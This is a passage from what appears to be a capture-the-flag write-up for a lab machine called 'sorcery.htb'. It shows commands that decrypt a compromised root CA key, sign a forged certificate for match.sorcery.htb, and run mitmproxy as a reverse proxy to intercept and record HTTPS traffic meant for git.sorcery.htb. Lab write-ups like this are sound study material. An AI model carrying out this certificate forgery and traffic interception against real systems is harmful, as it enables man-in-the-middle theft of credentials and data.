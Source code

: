 ```bash
└─$ openssl rsa -in RootCA.key -out RootCA-unenc.key
Enter pass phrase for RootCA.key: #input password
writing RSA key
```

After that we can use the root CA key to sign the certificate.

```bash
└─$ openssl x509 -req -in match.sorcery.htb.csr -CA RootCA.crt -CAkey RootCA-unenc.key -CAcreateserial -out match.sorcery.htb.crt -days 365
Certificate request self-signature ok
subject=CN=match.sorcery.htb
```

Now combine these two files into a single `.pem` file.

```bash
└─$ cat match.sorcery.htb.key match.sorcery.htb.crt > match.sorcery.htb.pem
```

Next, we will setup intercepting proxy to intercept the traffic to `match.sorcery.htb`. <br>
&rarr; We gonna use [mitmproxy](https://github.com/mitmproxy/mitmproxy) to do this.

### Intercepting Proxy
```bash
└─$ mitmproxy --mode reverse:https://git.sorcery.htb --certs match.sorcery.htb.pem --save-stream-file traffic.raw -k -p 443
```

How it works: <br>
- Start mitmproxy in reverse proxy mode.
- Intercept HTTPS traffic to `git.sorcery.htb`.
- `--save-stream-file traffic.raw`: Save all HTTP/HTTPS traffic to file (raw binary format).
- `-k`: Use fake certificate to avoid SSL warnings.
- Listen on port 443 (HTTPS).

It will pop up a terminal waiting for the traffic. <br>
